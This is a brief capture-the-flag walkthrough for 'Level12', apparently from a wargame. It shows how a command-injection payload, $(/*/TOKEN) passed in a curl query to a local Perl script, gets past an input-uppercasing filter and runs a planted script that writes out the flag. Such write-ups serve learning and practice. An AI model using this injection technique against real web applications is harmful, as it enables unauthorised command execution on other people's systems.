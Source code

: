 # Level12

Perl again... But this the script will change to uppercase any character we input. To bypass this we'll create a script with an uppercase name.
>`echo '/bin/getflag > /tmp/flag' > /tmp/TOKEN && chmod 777 /tmp/TOKEN`

Let's send our query.
>`curl 'localhost:4646/?x=$(/*/TOKEN)'`

Get the flag.
>`cat /tmp/flag`
